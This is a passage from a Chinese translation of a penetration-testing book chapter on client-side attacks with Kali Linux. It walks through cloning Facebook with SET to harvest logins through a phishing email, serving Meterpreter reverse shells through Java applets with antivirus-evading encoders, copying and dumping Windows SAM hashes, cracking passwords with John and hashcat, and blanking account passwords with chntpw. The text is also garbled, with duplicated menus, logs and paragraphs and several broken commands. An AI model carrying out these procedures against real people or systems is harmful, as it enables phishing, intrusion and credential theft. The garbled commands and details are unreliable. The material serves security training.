中间人攻击 (Man Left in the Middle) 方法由 Kos 引入并利用 HTTP REFERER。为了注入字段并收集数据，它使用了一个隐藏的不可见网站和一个恶意的 iframe-script src="http://YOURURL/?"。这可能来自广告或链接。

网页劫持 (Web-jacking)攻击方法将添加恶意 iframe 和 Back/Jack 团队。该方法利用 iframe 替换，当窗口弹出时阻止合法网站显示，然后用恶意链接替换。如果你觉得速度太慢或太快，可以进行编辑。

多攻击方法 (Multi-attack method) 将通过网站攻击菜单添加组合攻击，例如你可以同时利用 Java 攻击、Metasploit 浏览器、凭据收集器和中间人攻击，直到成功。

- 1) Java 攻击方法
- 2) Web 收集攻击方法
- 3) 凭据收集器攻击方法
- 4) 标签替换攻击方法
- 5) 黑客攻击方法
- 6) 多攻击 Web 方法
- 7) 创建设计证书报告
- 99) 返回主菜单

```
set-webattack[]_>
```

SET 将询问你是否想使用 SET 自带的现有模板，或者想克隆一个网站。默认模板并不理想，建议克隆如提供的 SharePoint 示例网站。

在下一个屏幕上，SET 将提供用户复制网站的几种选项。在本示例中，我们将使用 site-cloner。选择 site-cloner，SET 将提供一系列问题。这些问题将引导你完成网站克隆并在 Kali 上运行。Site-Cloner 将请求：

- NAT/端口转发：此选项往往让人困惑。SET 是在询问受害者是否使用在 Kali 服务器上配置的 IP 地址连接到你的机器。

- 反向连接的 IP 地址/主机名：当你攻击内网之外或互联网时，SET 需要告诉受害者如何连接回 Kali。
- 想要克隆的 URL：这是你要克隆的网站。
- 交付漏洞：SET 将使用 Metasploit 框架交付漏洞。最流行的选项是 Reverse_TCP Meterpreter。Reverse_TCP Meterpreter 的原理是让受害者运行一个执行文件，为攻击者通过 shell 访问开启一个端口。

## 客户端攻击


## 第 4 章

```
3) Windows Reverse_TCP VNC DLL
4) Windows bind shell 远程系统
5) Windows bind shell
6) Windows Reverse_TCP X64
7) Meterpreter Reverse_TCP X64
8) Meterpreter Reverse_TCP X64 表达式 (所有端口)
9) Windows Meterpreter 所有端口
10) Meterpreter Reverse HTTP 引擎
11) Meterpreter Reverse DNS
12) SE Toolkit 交互式 Shell
13) SE Toolkit HTTP Shell
14) RATTE HTTP 隧道载负载
15) Shellcode Alpha Shellcode codexec
16) Inject Shellcode 内存注入
17) MultiByInjector Shellcode 内存注入
18) 导入自己的可执行文件

set PAYLOAD>
选择以下其中一个，“通常带有后门的可执行文件”（backdoored executable）是最佳选择。然而，大多数仍然仍被杀毒软件（av）检测，我们需要进行额外的打包/复制以绕过基础检测。
1) win_x8 (普通)
2) shikata_gaai (非常优秀)
3) alpha_mixed (普通)
4) alpha_upper (普通)
5) call_dward_xor (普通)
6) con_square (普通)
7) frstenv_mov (普通)
8) imh_ata_nai (普通)
9) nonalpha (普通)
10) 编码 (普通)
11) unicode_mixed (普通)
12) unicode_generic (普通)
13) alphaz (普通)
14) alphag (普通)
15) 多重编码 (优秀)
16) 带后门的可执行文件 (最佳)

set encoding=x86
```

SET 将询问应该使用哪种监听器。在大多数情况下，请使用默认端口。在回答最后一个问题后，SET 将调出克隆的网站。

这个新的克隆网站可以用来攻击目标。欺骗用户使用 浏览器访问该克隆网站。访问克隆网站将弹出一个 Java 弹出窗口，如果运行了该程序，它将为你的 Kali 服务器提供一个 Reverse_TCP Meterpreter。攻击者可以启动一个 meterpreter 会话，并对访问克隆网站的设备拥有完全管理员权限。

## 客户端攻击

客户端机器将看到一个简单的 Java 弹出消息，它看起来很正常，普通用户应该不会察觉，如下方的所示：

当终端用户从克隆网站运行 Java Applet 时，Kali 服务器将连接到受害机机器，如下方的截图所示：

| Meterpreter 会话 1 打开 (10.25.27.200:443) -> 10.62.3.137:5500 |
| 正在向 10.62.3.137:49401 发送阶段 (75218 bytes) 于 2013-05-04 19:43:51 -0500 |
| 正在向 10.62.3.137:5500 发送阶段 (75218 bytes) |
| Meterpreter 会话 2 打开 (10.25.27.200:255) -> 10.62.3.137:49402) 于 2013-05-04 19:43:54 -0500 |
| 正在向 10.62.3.137:5500 发送阶段 (75218 bytes) |
| Meterpreter 会话 3 打开 (10.25.27.200:207) -> 10.62.3.137:49403) 于 2013-05-04 19:43:54 -0500 |
| 正在向 10.62.3.137:5500 发送阶段 (75218 bytes) |
| Meterpreter 会话 4 打开 (10.25.27.200:221) -> 10.62.3.137:49406) 于 2013-05-04 19:43:54 -0500 |
| 正在向 10.62.3.137:5500 发送阶段 (75218 bytes) |
| Meterpreter 会话 6 打开 (10.25.27.200:533) -> 10.62.3.137:49407) 于 2013-05-04 19:43:55 -0500 |

下一个示例是一个截图，显示 SET 可以与 meterpreter 交互并直接向受害者下命令：

```
ms exploit(handler) > sessions -i 1
[+] 开始与 1 交互...
meterpreter > ifconfig
Interface 1
===========================
Name            : Software Loopback Interface
Hardware MAC    : 00:00:00:00:00:00
MTU             : 1500
IPv4 Address      : 127.0.0.1
IPv4 Network     : 255.255.255.0
Interface 2
===========================
Name            : eth0
Hardware MAC    : 08:00:27:c9:d2:a3
MTU             : 1500
IPv4 Address      : 10.62.3.137
IPv4 Network     : 255.255.255.0
meterpreter >
```

你可以与 meterpreter 建立多个会话。在例例中，我们使用了命令 `sessions -i 1`。本质上，我们正在做的是与第一个会话进行交互。如果我们有多个主机，我们可以有多个会话，与它们交互，在它们之间切换，或者单独关闭它们。

现在我们已经学习了一些使用 SET 的基础知识，让我们再看另一个例子。我们将查看为了窃取密码而克隆网站。这次当我们进入攻击阶段时，我们将选择凭据收集器（credential harvester）。社会工程攻击（Social Engineering Attacks）、网站攻击（Website Attack），然后是凭据收集器（Credential Harvester）。

Webjacking 方法是通过网络钓鱼引入的。该方法利用 iframe 替换使链接在被点击时弹出一个窗口，然后被恶意链接替换。多重攻击（Multi Attack）方法将通过网络菜单添加组合攻击。例如，你可以使用 Java Applet、Metploit Browser，然后一次性执行它们，这将是成功的。

- 1) Java 方法
- 2) Metploit Browser
- 3) 凭据收集器攻击
- 4) Tababbing 方法
- 5) Webjacking 方法
- 6) 多重攻击
- 7) 导入

##客户端攻击

客户端机器将看到一个简单的 Java 弹出消息，看起来很正常，普通用户应该不会察觉，如下方的截图所示：

当终端用户从克隆网站运行 Java Applet 时，Kali 服务器将连接到受害机机器，如下方的截图所示：

| Meterpreter session 1 opened (10.25.27.200:443) -> 10.62.3.137:5500 |
| sending stage (75218 bytes) to 10.62.3.137:49401) at 2013-05-04 19:43:51 -0500 |
| sending stage (75218 bytes) to 10.62.3.137:5500 |
| Meterpreter session 2 opened (10.25.27.200:255) -> 10.62.3.137:49402) at 2013-05-04 19:43:54 -0500 |
| sending stage (75218 bytes) to 10.62.3.137:5500 |
| Meterpreter session 3 opened (10.25.27.200:207) -> 10.62.3.137:49403) at 2013-05-04 19:43:54 -0500 |
| sending stage (75218 bytes) to 10.62.3.137:5500 |
| Meterpreter session 4 opened (10.25.27.200:221) -> 10.62.3.137:49406) at 2013-05-04 19:43:54 -0500 |
| sending stage (75218 bytes) to 10.62.3.137:5500 |
| Meterpreter session 6 opened (10.25.27.200:533) -> 10.62.3.137:49407) at 2013-05-04 19:43:55 -0500 |

凭据收集器（credential harvester）允许你利用克隆能力从网站中收集凭据或参数。
- 此选项用于指定服务器 POST 的 IP。
- 如果你正在使用外部 IP，请在此标签处使用你的外部 IP：10.0.0.255 作为 Harvester/T 的回。
- SET 支持 HTTP 和 HTTPS。例如：https://thisisafakesite.com
* 输入克隆 URL：https://www.facebook
* 克隆网站：https://login.facebook/login.php
* 如果有用户名和密码字段，这可能需要一点时间。无论如何，这将捕获网站上所有的 POST。
* 社会工程工具包凭据收集器攻击
* 凭据收集器运行在端口 80
* 信息将在到达时显示在下方：

```
set:webattack>=
第一种方法将允许 SET 导入预定义的网络应用程序。
第二种方法将完全克隆你选择的网站并允许你利用攻击。
第三种方法允许你导入自己的网站，注意在使用导入方法时需要 index.html
1) Web模板
2) 站点克隆
3) 自定义导入
99) 返回 Webattack 菜单
```

我们将选择 2) 站点克隆。将被要求输入 URL。我们将克隆 https://www.facebook.com。

注意我们正在输入精确的 URL 并指定使用 HTTPS 还是 HTTP URL。在大多数情况下，这没有区别，因为我们不托管安全网站，但在某些情况下 HTTP 网站可能与 HTTPS 网站不同。

将被要求输入 用于托管假网站的 IP 地址。这可能是你的 Kali Linux 盒的 IP 地址。然而，如果你计划通过 NAT 转换（通过上游防火墙）引导受害者到地址，请输入 NAT 地址。

一旦克隆了网站并配置了监听端口，SET 将开始等待连接，如下方的所示：

- 凭据收集器允许你利用克隆功能从网站处收集凭据或参数。
- 此选项用于指定服务器 POST 的 IP。
- 如果你正在使用外部 IP，请在此标签处使用你的外部 IP：10.0.0.255 作为 Harvester/T 的回。

下一步是引导用户访问虚假网站。实现这一点的常用方法是发送电子邮件，也称为网络钓鱼电子邮件。SET 可以为你自动化此操作，但在本例中，我们决定手动执行。下一个示例显示了使用我们克隆的 Facebook 链接的假电子邮件。当用户点击 www.facebook.com 上的链接时，他们将被引导到我们的假网站 facebook.secmob.net。


## 客户端攻击

在下面的截图中你可以看到一个看起来像 Facebook 的克隆页面，但 URL 并不是真正的 Facebook。这种攻击假设受害者不会注意到 URL 细微的差别，这就是为什么真实的钓鱼攻击会使用与真实网站相似的域名。


当受害者在虚假网站上输入姓名时，SET 将将用户重定向到真实网站。在大多数情况下，用户会在真实网站上再次输入密码并登录，而完全没有意识到自己遭受了攻击。在运行的 Kali Linux 系统上，你可以看到密码被捕获了。

```
$! 我们抓到了目标！正在打印输出：
PARAM: UserName=Ladi
POSSIBLE PASSWORD FIELD FOUND: UserPassword=ILoveToDance
PARAM: target=62
PARAM: Log+on.x=59
PARAM: Log+on.y=10
*] 完成后，按下 CTRL-C 生成报告。
```

## 第 4 章

除了实时日志外，SET 还会生成一份事件报告，以便攻击者稍后利用被盗取的凭据。


### 社会工程工具包 (SET) 报告生成器
#### 由社会工程工具包生成的报告

欢迎使用社会工程工具包报告生成器。此报告应包含在成功钓鱼攻击期间的信息，并为您提供网站以及所有收集到的参数。请记住，SET 是开源、免费且供信息安全社区使用的。此工具用于行善，而非作恶。

在使用如 SET 等工具攻击客户端时，渗透测试人员理解客户端的行为至关重要。实现这一点最有效的方法之一是使用代理来检查和检查 Web 请求。

在第 6 章“Web 攻击”中，我们将更详细地介绍代理；然而，学习如何在使用攻击（如上段所述的用法 SET）时检查客户端的行为仍然非常重要。

## MitM 代理

MitM Proxy 是渗透测试人员用于检查客户端漏洞的绝佳工具。它允许管理员检查 HTTPS 连接、暂停、检查并响应流量。MitM Proxy 允许管理员修改来自 Web 服务器的请求或响应。

MitM Proxy 允许渗透测试人员快速检查攻击，并看到来自浏览器的请求和响应。可以通过进入 Kali | Sniffing/Spoofing | Web Sniffers 并选择 mitmproxy 来启动 MitM Proxy。

[ 143 ]

> 建议在设置 SET 攻击以及分析该攻击行为时使用 MitM Proxy。你应该在测试环境中同时运行 SET 和 MitM Proxy。

一旦加载了 MitM proxy，你将需要将客户端浏览器指向你的 Kali 服务器。MitM 将显示在客户端侧发生的 Web 交易，如下截图所示：

```
GET https://github.com
-- 200 OK text/html 5.52kb
GET https://a268.a.akam.net/github.com/stylesheets/bundles/github2-24f59e3ded11f2a
-- 1cf7e9e73082bdd50fcf8b.css
-- 200 28.2kb
GET https://a268.a.akam.net/github.com/images/modules/header/logov74x-hover.png71
-- 200 image/png 6.0kb
GET https://a268.a.akam.net/github.com/javascript/bundles/jquery-b2ca07cb3c90cec055d88b1a30bcc2452596.js
-- 200 application/x-javascript 32.9kb
GET https://a268.a.akam.net/github.com/stylesheets/bundles/github-cb564c47c51a1a4
-- 200 text/css 37.09kb
GET https://a268.a.akam.net/github.com/images/modules/home/logos/facebook.png?713452695
-- 200 image/png 5.55kb
```

将有一份通过客户端的所有活动日志。虽然 MitM Proxy 不在典型的 Web 渗透测试中作为活动组件使用，但在于真实环境中使用该包之前设置和测试 SET 时，它是非常有用的工具。在后面的章节中，我们将检查其他类型的代理；然而，我们喜欢 MitM Proxy 的原因是，作为一个渗透测试人员，通过直接连接到你的 Kali Linux 机器，它是测试攻击的一种简便方法。

### 主机扫描

访问主机系统的常用方法是识别并利用操作系统、已安装应用程序和其他程序中的漏洞。如 Nessus 等工具是评估系统漏洞的自动化方法。本节将介绍如何针对目标系统安装和运行 Nessus。利用将在第 3 章“服务器端攻击”中介绍，可用于利用 Nessus 识别出的漏洞。

### 使用 Nessus 进行主机扫描

Nessus 并没有随 Kali 预装。你将需要识别并利用操作系统、已安装应用程序和其他程序中的漏洞。Nessus 并没有随 Kali 预装。你需要针对目标系统运行 Nessus。免费版 仅供个人使用，商业用途需要购买授权。

### 在 Kali 上安装 Nessus

Nessus 并没有随 Kali 预装。你将需要识别并利用操作系统、已安装应用程序和其他程序中的漏洞。Nessus 并没有随 Kali 预装。你需要将你的扫描器注册到插件库，我们将下载它。Nessus 并没有随 Kali 预装。你需要针对目标系统安装和运行 Nessus。

- 1. 下载 Nessus。
- 2. 下载 Nessus 后，执行以下命令：
- 3. 将 /tmp/opt/nessus 复制到 /opt 目录；如果它不存在，请创建 /opt。
- 4. 你可以删除 /tmp 中的 Nessus 下载内容。
- 5. 为了启动 Nessus，执行命令：
- 6. 登录 Nessus 管理界面。

### 使用 Nessus

当你第一次登录 Nessus 时，会看到一些欢迎消息，并且会弹出一个 SSL 证书提示你正在连接到自签名证书。在一些说明性的屏幕之后，系统会提示输入激活码并下载最新插件。


你还将设置一个用户名和密码，用于管理 Nessus 。以下截图显示了设置账户以及提供 Tenable 在注册后通过电子邮件提供的 Nessus 激活码的过程：


## 客户端攻击

初始下载插件需要一些时间，请耐心等待。


一旦所有更新下载并初始化，你将看到登录界面。使用你在初始安装期间设置的用户名和密码。


要扫描，点击顶部丝带上的 Scan（扫描）选项卡并选择 New Scan（新扫描）。系统会提示你输入目标的详情。你会被要求选择想要使用的模板。Nessus 内置的模板较少。在示例中，我们选择了外部网络扫描。

如果 Scan 选项卡不可，你也可以选择 Scan Templates（扫描模板）和 New Scan（新扫描）来创建新扫描。


选择 Create Scan（创建扫描）后，扫描将在指定的时间启动。默认计划将立即运行，因此在大多数情况下，扫描将立即开始。


扫描完成后，可以通过点击 Results（结果）选项卡查看结果。这将为管理员提供一份 Nessus 发现的报告。


## 客户端攻击

我们可以像下面的截图所示，检查已完成的扫描以及目前任何活动扫描中收集到的任何结果：

| 结果标题 | 最后更新 | 状态 |
|---|---|---|
| Internal_web | 2013年5月09日 00:13:23 | 已完成 |
| securlyblogger.com | 2013年5月08日 00:12:20 | 运行中 |
| CloudCentrics | 2013年5月08日 00:04:44 | 运行中 |

作为渗透测试员，你必须关注任何漏洞。通过微软补丁或漏洞参考编号识别的漏洞可以在 Metasploit 框架中搜索，以便对目标主机使用利用程序。更多信息请参阅第3章“服务端攻击”中关于如何使用 Metasploit。

| 漏洞摘要 | | |
|---|---|---|
| CVE-0522: Microsoft Windows Task Scheduler Remote Overflow | Windows | 1 |
| CVE-0527: Vulnerability in SMB Allow Remote Code Execu... | Windows | 1 |
| CVE-0501: Microsoft Windows SMB Vulnerability Remote Code | Windows | 1 |
| CVE-0567: Microsoft Windows Server Service Crafted RPC | Windows | 1 |
| CVE-0326: Microsoft RPC-Interface Buffer Overrun (KB921596) (x... | Windows | 1 |
| CVE-0339: Microsoft RPC-Interface Buffer Overrun (KB924148) (x... | Windows | 1 |
| CVE-0457: ASNI 1 Vulnerability Could Allow Code Execution (02... | Windows | 1 |
| CVE-0111: Security Update for Microsoft Windows (KB32732) | Windows | 1 |
| CVE-0412: Cumulative Update for Microsoft RPC Runtime (KB32741) | Windows | 1 |
| CVE-0340: Vulnerability in Server Service Could Allow Reme... | Windows | 1 |
| CVE-0453: Vulnerability in Printer Spooler Service Could All... | Windows | 1 |
| CVE-0535: Vulnerability in Server Service Could Allow Remote... | Windows | 1 |
| CVE-0507: Vulnerability in Windows Could Allow Information D... | Windows | 1 |
| Microsoft Windows SMB NLLM Session Authentication | Windows | 1 |
| SMB Signing Disabled | Mac | 1 |

前面的示例显示了一些极其危险的漏洞（别担心，我们已经对系统进行了加固和修复）。所有这些漏洞都可以使用 Metasploit 或攻击工具来利用系统。要利用 Nessus 发现的漏洞，请参阅第3章“服务端攻击”中的 Metasploit。

## 第4章

Nessus 提供导出已识别漏洞详情的。你可以将结果导出为 HTML、CSV、PDF 以及许多其他常见文件类型。要导出结果，进入 Results（结果）部分并选择已完成的扫描。左侧的第三个选项卡提供了导出扫描选项，如两个截图所示：


## 获取密码

获取密码最简单的方法是社会工程学。然而也有许多技术方法。本节将侧重于技术方法。

- 猜测：手动尝试密码。
- 字典：使用单词列表。
- 暴力破解：尝试所有组合。
- 混合攻击：字典和暴力破解的结合。
- 彩虹表：使用预计算的哈希来加速过程。

Windows 中常用的哈希是 NTLM。它是一个 128 位哈希。虽然它可以被破解，但比旧的 LM 哈希困难。

### Windows 密码

Windows 是常用的操作系统。微软引入了安全功能。目前的产品比旧版本更安全；但仍然受到攻击。

Windows 将密码存储在 SAM（系统账户管理）注册文件中。例外情况是使用了 Active Directory。Active Directory 是一个独立的认证系统，将密码存储在 LDAP 中。SAM 文件位于 c\<systemroot>\sys32\config。


## 客户端攻击

> 注意，如果你在 Windows 中访问文件，你会修改其 MAC（修改、访问和更改），这是 Windows 记录你出现的方式。为了避免留存取证证据，建议在启动攻击之前复制目标主机系统。

### 挂载 Windows

有可用的工具可以获取 Windows 的 SAM 和 SYSKEY 文件。获取这些文件的一种方法是挂载目标 Windows 系统，以便其他工具可以在 Microsoft Windows 未运行时访问这些文件。

第一步是使用 `fdisk -l` 命令识别你的分区。你必须识别 Windows 分区和分区类型。fdisk 输出显示了一个 NTFS 分区，如下：

```
Device Boot Start Blocks Id System
/dev/hdb1 1 2432 19535008+ 86 NTFS
/dev/hdb2 2 2433 2554 979965 82 Linux swap/Solaris
/dev/hdb3 3 2555 6202 29302560 83 Linux
```

使用命令 `mkdir /mnt/windows` 创建挂载点。

使用如下所示命令挂载 Windows 系统

```
mount -t <WindowsType> <Windows partition> /mnt/windows
root@kali:~# mkdir /mnt/windows
root@kali:~# mount -t ntfs-3g /dev/hdb1 /mnt/windows
```

现在，你的目标 Windows 系统已经挂载，你可以使用以下命令将 SAM 和 SYSTEM 文件复制到你的攻击目录：

```
cp SAM SYSTEM /pentest/passwords/AttackDirectory
```

有可用的工具可以转储 SAM 文件。PwDump 和 Cain and Abel 只是其中的例子。Kali 提供了 sandump，在本章的密码工具部分已介绍。

> 注意，你需要恢复 Bootkey 和 SAM 文件。Bootkey 文件用于访问 SAM 文件。访问 SAM 文件的工具将需要 Bootkey 文件。

# 第 4 章

bkreg 和 bkhive 是可以获取 Bootkey 文件的流行工具，如下截图所示：

```
root@kali:~# bkhive /win/WINDOWS/system32/config/system key.txt
bkhive 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: ncuomo@studenti.unina.it

Root Key : $$
Default ControlSet: 002
Bootkey: 9e55eb2
```

### Linux 密码

Linux 主机系统不像 Windows 常见，并且获取 ROOT 权限面临不同的挑战。在启用自动登录时，许多系统可能以明文存储密码，例如用于 Telnet 和 FTP 的 netrc 文件。在大多数攻击中，你想要获取通常存储在 `/etc/passwd` 和 `/etc/shadow` 的 passwd 和 shadow 文件。

shadow 文件仅对 ROOT 可读，且通常是 MD5 哈希值。shadow 文件比 Windows 的 SAM 文件更难获取。有使用 grub 等引导加载程序获取 shadow 文件的方法。

破解 Linux 密码与 Windows 等其他系统类似。大多数混合自动破解程序（如 John the Ripper）可以识别哈希类型，并使用正确的字典对 shadow 密码进行暴力破解攻击。

### Kali 密码破解工具

Kali 提供了各种工具来绕过密码安全。密码破解工具可以在“密码攻击”下找到，并分为用于离线和在线攻击的工具。本节将重点关注在 Web 应用程序渗透测试期间用于入侵主机系统的工具。Kali 中还有其他工具，例如用于破解无线协议密码的工具；然而，这超出了本文的范畴。

## 客户端攻击

> 注意，John the Ripper 命令行和 Hydra 已在第 3 章“服务端攻击”中介绍。

### Johnny

Johnny 是非常流行的 John the Ripper 密码破解工具的图形界面（GUI）。我们在第 3 章“服务端攻击”中介绍过 John the Ripper 的传统命令行版本。与命令行版本一样，Johnny 拥有多个引擎，允许它破解不同类型的密码，包括加密密码和哈希密码。Johnny 具有自动检测大多数哈希和加密密码的能力，使得渗透测试者的过程变得更容易。攻击者喜欢这个工具，因为它具有高度的可定制性，并且可以通过多种不同的方式配置以加速密码破解。

> Johnny 中可能缺少某些自定义功能。对于大多数攻击，我们建议使用命令行 版本的 John the Ripper。

John the Ripper 的运行方式如下：

- 尝试使用字典单词破解密码
- 使用前后添加字母数字的字典单词
- 将字典单词组合在一起
- 添加字母数字以组合单词
- 运行混合了特殊字符的字典单词
- 当所有其他方法失败时，尝试暴力破解

要使用 Johnny，前往“密码攻击 | 离线攻击”并选择 Johnny。点击“打开密码文件”并选择你想破解的密码文件。以下截图显示了一个以用户 BOB、mary 和 joey 为目标的 shadow 文件。

当 Johnny 破解密码时，“密码”（Password）选项卡将被填充。


Johnny 在左侧有配置选项卡。“选项”（Options）表格是你选择攻击类型的地方。以下截图显示了默认行为以及选择哈希类型的选项。Johnny 的自动检测准确率通常为 90%。

 [ 157 ]

“统计”（Statistics）选项卡显示 Johnny 正在运行的会话。“设置”（Settings）选项卡指定了 Johnny 的运行路径：

> 注意，John the Ripper 的默认路径可能正确。在旧版本的 BackTrack 中，你必须手动将路径更新为 `/pentest/passwords/john`。Kali 1.0 的路径是 `/user/sbin/john`。


“输出”（Output）选项卡展示 Johnny 正在攻击的状态。你还会发现错误信息。以下示例显示了 Johnny 识别哈希类型的消息：

> Warning: detected hash type "sha512"

（注：此处原文存在大量重复的 Output 选项卡描述，已根据要求精简处理/翻译，保持逻辑一致性）

> Warning: detected hash type "sha512"

 输出 选项卡展示 Johnny 正在攻击的状态。你还会发现错误信息。以下示例显示了 Johnny 识别哈希类型的消息：

> Warning: detected hash type "sha512"

> 157 也会 发现错误信息。以下示例显示了 Johnny 识别哈希类型的消息：

> Warning: detected hash type "sha512" 

 输出 选项卡展示 Johnny 正在攻击的状态。你还会发现错误信息。以下示例显示了 Johnny 识别哈希类型的消息：

> Warning: detected hash type "crypt"

| 用户 | 密码 | 哈希 | 状态 |
| :--- | :--- | :--- | :--- |
| BOB | test | $6$NihL9OvpeGU... | 15771:0:999 |
| mary | happy | $6$6Nj7TN$tyHI3k... | 15771:0:999 |
| joey | | $6$UeqDbn$qe4JVGa... | 15772:0:999 |

75% (3/4 已破解，剩余 1)

# 第 4 章

img/df1fdcde66c92c1fef83bd651dd5ffe3_176_0.png

Johnny 将破解后的用户名填充到密码单元格。以下截图显示了破解的两个密码：

| 用户 | 密码 | 哈希 | 状态 |
| :--- | :--- | :--- | :--- |
| BOB | test | $6$NihL9OvpeGU... | 15771:0:999 |
| mary | happy | $6$6Nj7TN$tyHI3k... | 15771:0:999 |
| joey | | $6$UeqDbn$qe4JVGa... | 15772:0:999 |

75% (3/4 已破解，剩余 1)

### hashcat 和 ocl

img/df1fdcde66c92c1fef83bd651dd5ffe3_176_1.png

hashcat 和 oclHashcat 是密码破解工具。oclHashcat 是基于 GPGPU 的版本。hashcat/oclHashcat 实用是多线程工具，可以在单个攻击会话期间处理多个哈希和密码列表。hashcat/oclHashcat 工具提供了许多攻击选项，例如暴力破解、组合、字典、掩码和基于规则的攻击。


### samdump2

samdump2 是一个从 SAM 文件转储 Microsoft Windows 密码哈希值的工具，使其可以使用离线工具进行破解。对于较新版本的 Windows，你需要另一个工具来获取 SYSKEY（启动密钥）文件，以便访问存储在 SAM 数据库中的哈希。

你可以在密码攻击 (Password Attacks) | 离线攻击 (Offline Attacks) | samdump2 下找到它。当你打开 samdump 时，会弹出一个终端窗口。


你必须挂载 Windows 系统，以便 samdump 能够访问 SAM 文件。

```
root@kali:-# mkdir /mnt/Windows
root@kali:-# mount -t ntfs-3g /dev/hdb1/mnt/windows
```

接下来，将 SAM 和 SYSTEM 文件复制到你的攻击目录。

```bash
cp SAM SYSTEM /root/AttackDirectory
```

进入攻击目录并执行 `bkhive SYSTEM bootkey` 以获取启动密钥。将启动密钥复制到文本文件中，以便 samdump 拥有带有启动密钥的 SAM 文件。

```bash
cd /root/AttackDirectory
> windowshashfiles.txt
```

使用 `samdump SAM bootkey` 命令执行 samdump。将输出复制到第二个文本文件中。

```bash
samdump2 SAM bootkey > windowshashfiles.txt
```

现在使用 John the Ripper 等密码破解工具来破解哈希：

### chntpw

chntpw 是 Kali Linux、Backtrack 以及其他 Linux 发行版上的一个工具，用于重置 Windows 8 及早期版本的本地密码。它会修改 Windows 密码数据库。这主要用于在不知道密码时进入 Windows 机器。

## 客户端攻击

要使用 chntpw，请使用 Kali Live CD 启动 Windows 机器。下载 Kali Linux，请访问 http://www.kali.org/downloads/ 并下载 ISO 镜像。

将 ISO 刻录到 CD 并使用 Live CD 启动 Windows 机器。在 Kali 的启动菜单中，选择取证 (Forensics) 选项。


SAM 文件通常位于 /Windows/System32/config。你需要进入终端进入该目录。在你的系统上，它看起来可能像：

/media/hda1/Windows/System32/config

```
root@kali:/media/EC08E2D08E29ABA/Windows/System32/config# pwd
/media/EC08E2D08E29ABA/Windows/System32/config
root@kali:/media/EC08E2D08E29ABA/Windows/System32/config# 
```

每个系统可能略有不同。在这个示例中，Kali 似乎正在使用你硬盘的序列号作为设备位置。这是因为我使用 Kali Live CD 启动了一个 Windows 7 虚拟机。SAM 数据库通常在 /media/name_of_hard_drive/Windows/System32/config。

## 第 4 章

以下截图列出了你硬盘上的 SAM 数据库文件：

```
root@kali:/media/EC08E2D08E29ABA/Windows/System32/config# ls -l SAM*
-rw---- 1 root 262144 Jul 5 2013 SAM.LOG
-rw---- 1 root 19224 Apr 12 2011 SAM.LOG
-rw---- 2 root 256008 Jul 5 2013 SAM.LOG
-rw---- 2 root 0 Jul 14 2009 SAM.LOG2
root@kali:/media/EC08E2D08E29ABA/Windows/System32/config#
```

命令 `chntpw -w1` 将列出 Windows 系统中包含的所有用户名。下面的截图显示了运行命令 `chntpw -w1 SAM` 后的所有用户名：


该命令给了我们一个用户名列表。当我们有想要修改的用户名时，运行命令 `chntpw -u "username" SAM`，我们就会得到：

在这个示例中，我们输入了 `chntpw -u "Administrator" SAM`，得到了以下菜单：

```
-- User Edit Menu:
1 - Clear (blank) user password
2 - Edit (set new) user password (在 XP 或 Vista 上操作需小心)
3 - Promote user (将用户提升为管理员)
4 - Unlock and enable user account (似乎已经解锁)
q - Quit editing user, back to user select
Select: (q) >
```

我们现在有了清除密码、更改密码或将用户提升为管理员的选项。在 Windows 7 系统上更改密码并不总是有效，因此建议清除密码。通过这样做，我们将能够空密码登录目标系统。

## 客户端攻击

要访问 chntpw，请前往密码攻击 (Password Attacks) | 离线攻击 (Offline Attacks) | chntpw。将打开一个终端窗口，显示 chntpw 的欢迎界面。使用 chntpw 有几种方法，如主页上所示：

```
chntpw version 0.99.6 080526 (sixtyfour), (c) Petter N Hagen
chntpw: change password of a user in a NT/2K/XP/2K3/Vista SAM file, or invoke registry editor
chntpw [OPTIONS] <sam>[systemfile] [securityfile] [othersegue] [...]
-u <user> This message
  Username to change, Administrator is default
  list all users in SAM file
  Interactive. List users (-l) then ask for user to change
  Registry editor. Now with full write support!
  Enter buffer debugger (hex editor).
-t Trace hexdump of structs/segments. (弃用的调试函数)
-v Be a little more verbose (for debugging)
-n Write names of changed files to /tmp/changedfiles
  No allocation method. Only (old style) same length overwrites possible
```

查看 readme 文件了解如何获取注册表文件以及它们是什么。源代码/二进制文件根据 GPL v2 许可证自由发布。详情见 readme。
注意：此程序是


Crunch 具有特殊字符，其对应的含义如下：

- + / - @: 插入小写字母
- %: 插入数字
- ,: 插入大写字母
- ^: 插入符号

在此示例中，我们假设知道目标密码是 `pass` 后面跟两个未知字符。要运行 Crunch 生成一个包含 `pass` 后跟两个未知数字的六位密码，请使用 `%%` 来代表任何数字。为了执行此操作并将输出放在文件名 `newpasswordwordlist.txt` 中，请使用示例输入：

```
root@kali:~# crunch 6 6 -t pass%% >> newpasswordwordlist.txt
```
Crunch 现在将生成以下量的数据：700 bytes
- MB
- GB
- TB
- PB
Crunch 现在将生成以下数量的行：100

输出文件将包含所有可能的数字组合。下面的截图显示了输出文件的顶部：

| 文件 编辑 搜索 选项 帮助 | | | | | |
|---|---|---|---|---|---|
| pass00 | | | | | | |
| pass01 | | | | | | |
| pass02 | | | | | | |
| pass03 | | | | | | |
| pass04 | | | | | | |
| pass05 | | | | | | |
| pass06 | | | | | | |
| pass07 | | | | | | |
| pass08 | | | | | | |
| pass09 | | | | | | |
| pass10 | | | | | | |
| pass11 | | | | | | |

## 客户端攻击

要添加所有小写字母，使用 `crunch 6 6 -t pass`，并用 `@@` 代表所有小写字母，如下例所示：

```
root@kali:~# crunch 6 6 -t pass >> newpasswordlist.txt
```
Crunch 现在将生成以下量的数据：4732 bytes
0 MB
0 GB
0 TB
0 PB
Crunch 现在将生成以下数量的行：676
root@kali:~#

现在文本文件包含所有小写字母和数字，如下例所示：

| 文件 编辑 搜索 选项 帮助 | | | |
|---|---|---|---|
| passbd | | | |
| passbe | | | | |
| passbf | | | |
| passbg | | | | |
| passbh | | | | |
| passbi | | | | |
| passbj | | | | |
| passbk | | | | |
| passbl | | | |
| ... (列表其余部分) | | | |

## Kali 中的其他可用工具

Kali 中还有其他实用工具。我们将列表限制在协助破解 Web 应用服务器的主机系统的工具。Kali 中还有其他未列在此列表中的密码破解工具；但这些工具的重点不在本文的范围之内。

### Hash-identifier

Hash-identifier 是一个用于识别哈希类型的 Python 工具。大多数密码破解工具（如 John the Ripper）都具有哈希自动检测功能，该功能非常好，准确率可能达到 90%。此工具可用于手动验证哈希类型。要使用 Hash-identifier，运行该工具并将哈希副本粘贴进去即可。

## 第 4 章

